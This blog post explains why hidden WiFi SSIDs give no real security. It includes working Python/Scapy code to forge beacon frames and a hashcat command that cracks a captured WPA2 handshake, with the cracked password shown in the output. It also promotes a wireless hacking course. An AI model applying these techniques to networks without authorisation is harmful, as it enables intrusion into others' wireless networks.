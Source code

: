 ```yaml
---
layout: post
title: "Hacking Hidden WiFi Networks"
date: 2025-06-14
author: TheXero
comments: true
categories: wifi
tags: [wifi, hidden-ssid, scapy, wireless-hacking, beacon-frame, hashcat, psk-cracking, pentesting]
description: "Explore the truth behind hidden SSIDs and learn how attackers can reveal and exploit non-broadcasting WiFi networks using beacon spoofing and Scapy."
keywords: hidden SSID, non-broadcasting WiFi, beacon spoofing, WPA2 cracking, wireless security, Scapy, hashcat, hcxpcapngtool
excerpt: "Think hidden SSIDs make your WiFi more secure? Think again. Discover how wireless attackers reveal, spoof, and crack non-broadcasting networks using Python, Scapy, and Hashcat."
image: /images/ssid_hidden.webp
thumbnail: /images/ssid_hidden.webp
---
```


## TL;DR

Hidden SSIDs don’t provide real security—they only hide your network name from the casual observer. In this post, we explore how attackers can reveal a hidden SSID by monitoring probe responses and forge beacon frames using Scapy to crack WPA2 passwords using tools like `hcxpcapngtool` and Hashcat. If you’re relying on “security by obscurity,” it’s time to rethink your wireless defenses.

---

I have received alot of queries recently, around hidden SSIDs, specifically if there is any security implications of it. After all, if no one can see my network, then no body can possibly target it.

Now, lets clear up a few bits first, a hidden SSID is not a recommended security practice. A hidden SSID is actually known as a non-broadcasting SSID, and provides a false sense of security. Lets explore why this is the case.

A standard WiFi network presents itself by sending out what is known as a Beacon frame.  This beacon frame is used to actively broadcast itself as being available to connect to. A hidden, or non-broadcasting SSID on the other hand, still sends the same beacon frames, but with an empty SSID field.

![Hidden SSID](/images/ssid_hidden.webp)

Now, the standard device might have trouble connecting to a hidden network for one of two reasons.
1. The modern day default, is that STA devices can be configured to search for networks, but typically do not reveal what network they are searching for. Instead, they rely on the response frame containing a known network.
2. Some older devices, cannot be configured to connect to a hidden network.

What ends up happening, is the device will send a probe request with a missing SSID, and the hidden network, will just ignore it. It will not respond to the request.

![Hidden Probe](/images/probe_hidden.webp)


To get around, this STA must be configured to ask for the specific network it is looking for, only then will the AP send a response containing the SSID.

![[Probe with SSID](/images/probe_ssid.webp)


After receiving this valid response frame, the device then continues through the WiFi states and exchanges the authentication frames, and following with the association frames, again while having to disclose the SSID it is attempting to associated with.

![Association with SSID](/images/association_ssid.webp)


And so, despite some might believe using a hidden or non-broadcasting SSID is a security feature, really not. It is more security by obscurity and hassle than anything else, as the world is more security and privacy conscience than ever before, the non-broadcasting network name is still leaked during various stages.

But I hear you say, "what about during the 4-way handshake, the SSID is the salt. Without it, you cannot crack the password." To that, I would say, you are 100% correct. The way the PSK is generated is with both the password as well as the SSID. Lets break this down demonstrate this in human readable python code.


```
# Imports the required PBKDF2 module
from pbkdf2 import PBKDF2

# Defines the ESSID (used as the salt)
ESSID=WPA2

# Defines the password used
PASSWORD=password

# Generates the PMK 
PMK=PBKDF2(PASSWORD, ESSID, 4096).read(32).hex()

# Outputs the PMK hash to the screen
print(PMK)
```

More information on this exact process can be found in the RFC over at https://www.rfc-editor.org/rfc/rfc8018.txt 

So yes, in order to crack the password, you need the true SSID for network. 

Now, imagine this scenario, you are on a wireless pentest, you got the 4-way handshake, all is good, and you export the files. You go back to your office to put the hash onto your custom built escobar password cracking device. 

And it hits you, that dreaded error from hcxpcapngtool. Information: `no hashes written to hash files`. When you exported the selected frames, forgetting that the SSID is not broadcasted. You exported the full 4-way handshake with the standard beacon frame that did not contain the SSID. How can you crack the password now?

But you know the SSID. Beacon frames are not verified, so, lets forge one ourselves with Scapy, so we can crack this hash out.

You create the following python code:
```
#!/usr/bin/python3

# Import all parts to send a forged Beacon frame
from scapy.all import Dot11Beacon, Dot11Elt, Dot11, RadioTap, sendp

# Define the known SSID
SSID="WPA2"

# Create the broadcast Beacon frame
dot11 = Dot11(
        type=0,
        subtype=8, 
        addr1='ff:ff:ff:ff:ff:ff', 
        addr2='50:d4:f7:ff:ef:d8', 
        addr3='50:d4:f7:ff:ef:d8')
Beacon = Dot11Beacon()

# Set the SSID field
ESSID = Dot11Elt(ID='SSID', info=SSID, len=len(SSID))

# Construct the frame
frame = RadioTap()/dot11/Beacon/ESSID

# Send 10 forged frames
sendp(frame, iface='wlan0', count=10)
print("Sent Beacon.")
```

With Wireshark open listening capture the forged Beacon frame as shown below:
![Forged Beacon Frame](/images/forged_beacon.webp)

Now all you need to do in merge the forged beacon frame into the existing pcapng file and convert the hash to hashcat using hcxpcapngtool. And finally, its now time to crack the hash using hashcat
```# hashcat -m 22000 forged.22000 /usr/share/wordlists/rockyou.txt --quiet
8761551efb7b088761cdcf31de358919:50d4f7ffefd8:0025d38b6d09:WPA2:princess
```

I hope you all enjoyed this post. Let me know what you would like to see next.

Toby



### Ready to Level Up Your Wireless Hacking Skills?

If you found this post valuable and want to dive deeper into real-world WiFi attack techniques, rogue AP setups, handshake harvesting, and advanced cracking, check out my **WiFi Mastery** course.

Enrollment is open now at [https://training.thexero.co.uk/p/wifi-specialist](https://training.thexero.co.uk/p/wifi-specialist) and take your wireless skills to the next level.
